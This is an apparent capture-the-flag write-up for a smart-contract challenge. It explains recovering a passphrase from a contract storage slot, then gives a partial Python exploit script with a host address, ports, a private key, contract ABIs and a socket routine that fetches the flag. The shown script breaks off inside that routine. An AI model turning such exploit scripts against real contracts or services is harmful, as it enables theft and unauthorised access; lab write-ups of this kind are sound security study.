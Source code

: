 ## Finding the Secret

The first challenge was determining the correct passphrase byte. Looking at the contract's storage slots revealed:

```
Storage slot 0: 00000000000000000000000000000000000000000000000000000000deadfade
```

This value (`0xdeadfade`) looked like our secret. Since only the first byte matters due to the `shr(224, _passphrase)` shift, we need to use `0xde` as the first byte of our passphrase.

## Exploit Script

```python
#!/usr/bin/env python3
import json
import socket
import time
from web3 import Web3

# Connection details
HOST = "94.237.53.203"  
RPC_PORT = 52231
MENU_PORT = 50906

# Account info
PRIVATE_KEY = "0xa578ea86089530411ab5e3f1b096a777f4608a91a561b91ec1abb033be00e8df"
PLAYER_ADDRESS = "0xE491593331568507178EAcd415fb34D4cDB32D7a"
TARGET_ADDRESS = "0x5Ab4F74529bcf36F370FD9c557b0F847dede9d0e"
SETUP_ADDRESS = "0x70B4B5B82f73e016D50f6df56C1c51b04bF59993"

# ABIs
TARGET_ABI = [
    {"inputs":[{"internalType":"bytes4","name":"passphrase","type":"bytes4"}],"name":"enter","outputs":[],"stateMutability":"payable","type":"function"},
    {"inputs":[{"internalType":"address","name":"_villager","type":"address"}],"name":"checkUsurper","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"}
]

SETUP_ABI = [
    {"inputs":[],"name":"isSolved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"}
]

def get_flag():
    """Retrieve the flag from the menu system"""
    try:
        print("Getting flag...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(10)
        s.connect((HOST, MENU_PORT))
        
        # Read menu
        response = s.recv(4096).decode()
        
        # Select option 3 to get flag
        s.send(b"3\n")
        time.sleep(1)
        
        # Get the flag response
        flag_response = s.recv(4096).decode()
        print(f"Flag response: {flag_response}")
```